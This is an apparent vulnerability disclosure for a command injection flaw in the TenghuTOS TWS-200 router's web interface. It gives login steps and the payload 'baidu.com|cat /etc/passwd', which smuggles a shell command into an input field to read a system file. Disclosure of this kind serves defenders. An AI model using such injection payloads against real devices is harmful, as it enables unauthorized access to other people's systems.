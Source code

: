 There is a command execution vulnerability in TenghuTOS TWS-200 router

official website:http://www.tenhot.net/

version:TWS-200

1.Log in to the background

![1](https://github.com/websafe2021/CVE/blob/main/1.png)

![2](https://github.com/websafe2021/CVE/blob/main/2.png)

2.Then enter 'baidu.com|cat /etc/passwd' and the command is successfully executed

![3](https://github.com/websafe2021/CVE/blob/main/3.png)
